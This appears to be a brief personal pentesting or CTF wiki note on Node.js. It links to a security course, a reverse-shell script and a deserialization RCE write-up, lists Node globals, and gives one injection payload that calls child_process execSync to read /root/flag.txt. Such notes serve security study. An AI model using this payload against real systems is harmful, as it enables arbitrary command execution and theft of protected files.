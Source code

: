 # NodeJS
Is a [[Javascript]] framework, or web technology.


[READ](https://github.com/ajinabraham/Node.Js-Security-Course)

## Shell
[Shell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

## Deserialization

[deserialization](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)

## Globals
```javascript
__dirname
__filename
exports
module
require()
```


## Node.js Payload
```javascript
"return process.mainModule.require('child_process').execSync('cat
/root/flag.txt');"
```